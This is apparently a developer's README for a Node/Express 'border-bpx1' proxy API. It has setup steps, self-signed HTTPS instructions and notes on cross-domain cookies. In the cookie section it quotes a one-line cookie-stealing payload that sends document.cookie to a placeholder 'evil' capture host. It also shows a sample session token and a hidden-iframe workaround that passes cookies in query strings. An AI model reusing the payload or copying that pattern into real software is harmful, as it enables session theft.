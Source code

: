 # border-bpx1-api

## Document API

- API docs included Routing Execution
  - Docs API: <https://border-bpx1-api.herokuapp.com/api-docs>
  - Testing page : <https://border-bpx1-api.herokuapp.com>

## Setup

```js
npm install
npm start
```

## Todo

- Sync Domains Button
  - Sync all domain of all WLs
  - Save to local storage
    - Item localstorage is WL name
      - Ex: 'HABANA' : 'sda2fed32311154252'
  - Encrypt domain json by public key from backend & decrypt private key from front-end

## Bugs

- Input data number or string, ex 169 and '169'
- ***cannot unmarshal string into Go struct field*** => backend is implemented by golang
- Session expired error a(4)(wait session refresh)

## Notes

- body parameters swagger io 2.0 depcrecated

  ```js

  {"cookie":"borderproxy-deviceId=QZGVvSjXLm6SNU6N2PKS3Q==; Path=/; Expires=Tue, 12 Nov 2120 10:34:12 GMT; HttpOnly,borderproxy-token=Gsaf7dGgs7kSXWVpVJOl5l7SyjuYhio_c9Q8x0PFq5A=; Path=/; Expires=Thu, 19 Nov 2020 10:34:12 GMT; HttpOnly"}
  
  ```

- Open API 2.0 doesn't support set-cookie at response header (SWAGGER UI) : <https://github.com/scottie1984/swagger-ui-express/issues/80>

- Change docs api to OAS(Open API Swagger) 3.0.3 <https://swagger.io/docs/specification/describing-request-body/>

- <https://docs.sencha.com/extjs/6.2.1/modern/Ext.Date.html>

## Install Https in Express

- <https://hackernoon.com/set-up-ssl-in-nodejs-and-express-using-openssl-f2529eab5bb>
- Download OpenSSL Lib, extract and goto bin/openssl
  
  ```bash
  > openssl req -x509 -newkey rsa:2048 -keyout keytmp.pem -out cert.pem -days 365

  > openssl rsa -in keytmp.pem -out key.pem
  ```

  - Two statements will write down two files : ```key.pem``` and ```cert.pem```
  - Inject to express web server
  
  ```js
    const express = require('express')
    const app = express()
    const https = require('https')
    const fs = require('fs')
    const port = 3000

    app.get('/', (req, res) => {
      res.send('WORKING!')
    })

    const httpsOptions = {
      key: fs.readFileSync('./key.pem'),
      cert: fs.readFileSync('./cert.pem')
    }
    const server = https.createServer(httpsOptions, app).listen(port, () => {
      console.log('server running at ' + port)
  })
  ```

  - Chrome :
    - chrome://flags/#allow-insecure-localhost
    - type : allow invail -> enable it

- Run nodejs app at cpanel <http://prntscr.com/vr2tc5>

## Set Cookie to broswer from 3rd party scrips

- Ref: <https://javascript.info/cookie>
- Only work with https

  ```txt

    If we load a script from a third-party domain, like <script src="https://google-analytics.com/analytics.js">, and that script uses document.cookie to set a cookie, then such cookie is not third-party.

    If a script sets a cookie, then no matter where the script came from – the cookie belongs to the domain of the current webpage.
  ```

- <https://stackoverflow.com/questions/20170040/can-a-third-party-script-set-a-first-party-cookie>

  - Domain ```b.com``` load a script from domain ```a.com```
  - I read on MDN Note: ***The domain must match the domain of the JavaScript origin. Setting cookies to foreign domains will be silently ignored.*** Doesn't this contradict what you said? developer.mozilla.org/en-US/docs/Web/API/Document/cookie
  - A script from ```a.com``` can steal cookie of domain ```b.com``` by create a following tag and the cookie will be captured by server code of ```a.com``` domain

    ```html
    document.writeln("<img src='http://www.a.com/evil/data/capturer?" + document.cookie + "'>");
    ```

  - ==> Finally we only read cookie from thrid party script by ```document.cookie``` and can not set cookie by ```document.cookie = 'abc=ABC```
  - ==> How do i set cookie for b.com domain ? 
    - Create a iframe with ```src=b.com/?border-px1-cookie=response cookie json```
    - Add handling set cookie at window onload event of home page

## Send Cookies Cross Domain

- <https://stackoverflow.com/questions/60762810/cross-domain-ajax-request-with-jquery-not-sending-cookies>
- Add Samesite
- chrome://flags/#cookies-without-same-site-must-be-secure

- Finally Solution:
  - Web API Server (domain is abc.com)
    - Response a cookie with options :

      ```js
      res.cookie('border-px1',
        cookie, {
        sameSite: 'None',
        secure: true,
        //Domain:'abc.com'
      });
      ```

      - Remember encode cookie string
      - Domain will be set default as current domain of Web API Server, so don't need set at cookie option
  - Web Client (domain is bca.com)
    - Receive Cookie
      - If Web Client and Web API same domain, the cookie will be written automatic
      - If Web Client and Web API aren't same domain
        - The Web Client will be impossible to set cookie automatic
        - The Web Client will be impossible to set cookie by following javascript code :

        ```js
          document.cookie = 'border-px1=' + cookie + ';Domain=abc.com; Path=/; SameSite=None; Secure';
        ```

      ==> Has a tip to slove this problem :
      - Web Client : create a iframe and send cookie value by query string to Web API Server :

          ```js
              var ifrm = document.createElement('iframe');
              ifrm.setAttribute('style', 'width:0;height:0;border:0; border:none');
              ifrm.setAttribute(
                'src',
                'abc.com' + '/authentication?cookie=' + cookie
              );
              document.body.appendChild(ifrm);
          ```

      - Web API Server : create a hander to receive cookie query value

          ```js
          // router/authentication.js
          router.get('/', authentiocationHandler.setCookieToBrowser);
          // handlers/authenticationHandler.js
          function setCookieToBrowser(req, res) {
            try {
              let cookie = req.query.cookie;
              if (cookie) {
                //res.removeHeader('X-Frame-Options');
                res.cookie('border-px1',
                  cookie, {
                  sameSite: 'None',
                  secure: true,
                });
                res.send('cookie was sent');
              } else res.send("Cookie doesn't exist");
            } catch (error) {
              res.send(error.message);
            }
          }
          ```

          After a iframe created, cookie will be set to broswer
        - Note : *Creating a iframe faced ```X-Frame-Options``` issue, this is security feature of HTTP Headers in HTTP Protocol, They designed to prevent the ```ClickJacking attack```. The iframe content will be locked, but that don't effect setting cookie to browser*

    - Send Cookie
      - Use ```withCredentials: true``` option for AJAX request, it'll send all existed cookies of Web-Client's current domain for each request (the Header Request will appear ```Cookie``` key). Mean the cookies was marked ```SameSite=None;``` will be possible to send from other domain, and ```Secure``` mean is working with https only(Web API Server) 

